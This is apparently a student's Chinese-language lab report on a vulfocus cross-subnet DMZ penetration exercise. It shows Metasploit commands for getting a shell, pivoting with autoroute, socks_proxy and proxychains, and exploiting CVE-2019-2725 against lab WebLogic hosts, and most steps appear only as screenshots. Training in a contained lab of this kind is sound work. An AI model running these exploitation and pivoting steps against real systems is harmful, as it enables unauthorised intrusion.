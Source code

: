 # 网络安全实践

## 实验环境
kali2024.4
## 实验内容

## 实验步骤

### 基础运行环境准备

### 漏洞攻防环境搭建

启动vulfocus
![启动vulfocus](./pics/启动vulfocus.png)

### 场景化漏洞攻防（以 vulfocus 提供的【跨网段渗透(常见的dmz)】为例）

1. 场景安装与配置

* 【场景管理】→【环境编排管理】，根据课堂内容创建场景拓扑并保存
![自己布置的场景](./pics/场景具体拓扑图.png)
* 进入【场景】，启动指定场景
![场景](./pics/已上传的场景.png)
启动场景后可以看到相应的
![启动场景](./pics/启动场景后的容器.png)

2. 捕获指定容器的上下行流量，准备抓包
![捕获流量](./pics/捕获指定容器的上下行流量.png)

3. 攻破靶标1

* metasploit 基础配置

```
# 更新 metasploit
sudo apt install -y metasploit-framework
```

![更新](./pics/更新%20metasploit.png)

初始化metasploit本地工作数据库
![初始化metasploit](./pics/初始化metasploit本地工作数据库.png)

![开放端口](./pics/通过%20vulfocus%20场景页面看到入口靶标的开放端口.png)

![工作区](./pics/已经在demo工作区.png)

![工作区](./pics/建立工作区.png)

![搜索](./pics/在metasploit里搜索样例.png)

![use](./pics/使用上述exp.png)

![查看参数](./pics/查看exp可配置参数列表.png)

![靶机IP](./pics/配置靶机IP和目标端口.png)

![主机IP](./pics/配置攻击者主机IP.png)

![payload](./pics/使用合适的exppayload.png)

get shell
![getshell](./pics/getshell.png)
![查看打开的shell](./pics/查看打开的shell.png)

进入会话1并尝试bash指令
![get1](./pics/getshell进入会话1并尝试bash指令.png)
![bash](./pics/已拿到入口flag.png)

4. 建立立足点并发现靶标2-4

* 将cmdshell升级为metrpretershell
```sessions -u 1```
![升级](./pics/将cmdshell升级为metrpretershell.png)
进入会话2
```sessions -i 2```
![进入会话2](./pics/进入会话2.png)

* 进入会话2查看网卡列表

```
ipconfig
arp
route
```

![查看网卡](./pics/进入会话2查看网卡列表.png)

* 查看路由表和arp表

![查看路由表arp表](./pics/查看路由表和arp表.png)
![autoroute](./pics/runautoroute-s.png)

* 搜索可用的portscan
```search portscan```
![搜索](./pics/搜索可用的portscan.png)

use选择的portscan并查看可配置参数列表
![useportscan](./pics/use选择的portscan并查看可配置参数列表.png)
配置portscan参数
![配置参数](./pics/配置portscan参数.png)
tcp扫描100%
![saomiao](./pics/tcp扫描100%25.png)
查看发现新的hosts和services
![查看服务](./pics/扫描100%25后新的设备和hosts.png)
搜索socks_proxy并use
![use](./pics/搜索socks_proxy并use.png)
在后台开启socks—proxy
![socks](./pics/在后台开启socks——proxy.png)

* 新开一个cmd窗口

查看1080端口服务开放情况
![查看服务](./pics/查看1080端口服务开放情况.png)

* 编辑/etc/proxychains4.conf

```
sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf
```
![编辑](./pics/编辑etcproxychains4.png)
在攻击者主机新的窗口nmap扫描
![nmap](./pics/在攻击者主机新的窗口nmap.png)

```
# 重新进入 shell 会话
sessions -i 1
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.3:7001 -vv
curl http://192.170.84.4:7001 -vv
```

![](./pics/curl2.png)
![](./pics/curl3.png)
![](./pics/curl4.png)

5. 攻破靶标2-4

```
# search exploit
search cve-2019-2725

# getshell
use 0
show options
set RHOSTS 192.170.84.2
# 分别设置不同的靶机 IP 
set lhost 192.168.56.214
# 分别 run
run -j
```

![](./pics/拿到flag2.png)
![](./pics/flag3.png)
![](./pics/flg4.png)

6. 攻破最终靶标
![](./pics/升级并发现双网卡.png)
![](./pics/最后一个flag查找中.png)
![](./pics/最后一个flag过程2.png)
![](./pics/flag5.png)

7. 拷贝抓包文件，进行分析
![](./pics/抓包结果之一.png)
![](./pics/抓包结果之二.png)

## 遇到的问题

1. 无法登陆，显示服务器内部错误
![报错](./pics/服务器内部错误.png)

* 解决方法：
![解决方法](./pics/服务器内部错误解决方法.png)
![解决方法](./pics/服务器内部错误解决方法2.png)

2. 无法启动场景，一直有一个容器无法启动，并且无法getflag
![报错](./pics/无法启动场景时查看日志发现报错.png)
![启动场景](./pics/启动场景后的容器.png)
解决方法：发现是docker.io的问题，卸载docker.io安装docker-ce后场景能够顺利运行
![](./pics/查看dockerio.png)
![](./pics/查看dockerce.png)

## 参考资料